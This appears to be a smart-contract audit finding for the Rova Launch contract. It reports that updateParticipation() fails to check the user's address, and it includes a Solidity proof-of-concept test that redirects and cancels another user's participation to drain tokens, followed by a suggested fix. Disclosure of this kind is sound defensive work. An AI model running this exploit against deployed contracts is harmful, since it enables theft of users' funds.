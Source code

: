 Bent Honey Albatross

High

# A malicious attacker can steal the currency tokens of another user.

### Summary

A malicious attacker can steal the currency tokens of another user.
Since users can use multiple addresses to fund, it is advisable to conduct address verification because there is no guarantee that the signer is validating accurately.
The updateParticipation() function only checks the userId and does not check the userAddress, therefore the malicious attacker to steal another user's currency. 
https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L312
If a malicious attacker updates another user's participation with their own address, the other user's currency tokens will be transferred to the malicious attacker's address. Subsequently, the malicious attacker calls the cancelParticipation() function to steal the tokens.


### Root Cause

none

### Internal Pre-conditions

none

### External Pre-conditions

none

### Attack Path

1. User1 participates in the launch with 1000 currency tokens. 
2. The malicious attacker User2 creates an UpdateParticipationRequest with User1's userId and launchParticipationId. In this case, User2 set the userAddress of the UpdateParticipationRequest to User2's address and set the tokenAmount to 2000. Then, User2 call updateParticipation(). 
3. Afterwards, the malicious attacker cancels the updated participation. 

The malicious attacker successfully stole User1's 1000 currency tokens.

### Impact

Users may lose currency tokens.

### PoC

```solidity
function test_UpdateParticipation_IncreaseAmount2() public {
        console.log("user1 token after participation: ", currency.balanceOf(user1));
        console.log("original user2 token : ", currency.balanceOf(user2));

        // Prepare update participation request
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(2000);
        updateRequest.userAddress = user2;
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.startPrank(user2);
        uint256 updatedCurrencyAmount =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), updatedCurrencyAmount);

        // Update participation
        launch.updateParticipation(updateRequest, updateSignature);

        CancelParticipationRequest memory cancelRequest = CancelParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: updateRequest.newLaunchParticipationId,
            userId: testUserId,
            userAddress: user2,
            requestExpiresAt: block.timestamp + 1 hours
        });
        bytes memory cancelSignature = _signRequest(abi.encode(cancelRequest));

        launch.cancelParticipation(cancelRequest, cancelSignature);

        console.log("user1 token : ", currency.balanceOf(user1));
        console.log("user2 token : ", currency.balanceOf(user2));

        vm.stopPrank();
    }

    Logs:
      user1 token after participation:  1000000000000000000000
      original user2 token :  1000000000000000000000
      user1 token :  1000000000000000000000
      user2 token :  2000000000000000000000
```


### Mitigation

```solidity
 function updateParticipation(UpdateParticipationRequest calldata request, bytes calldata signature)
        external
        nonReentrant
        whenNotPaused
        onlyLaunchGroupStatus(request.launchGroupId, LaunchGroupStatus.ACTIVE)
 {
        ...
        // Validate participation exists and user, requested currency match
        ParticipationInfo storage newInfo = launchGroupParticipations[request.newLaunchParticipationId];
        if (request.currency != prevInfo.currency) {
            revert CurrencyMismatch(prevInfo.currency, request.currency);
        }
        if (request.userId != prevInfo.userId) {
            revert UserIdMismatch(prevInfo.userId, request.userId);
        }
<+>     if (request.userAddress != prevInfo.userAddress) {
<+>         revert UserIdMismatch(prevInfo.userAddress, request.userAddress);
<+>     }
        ...
}
```
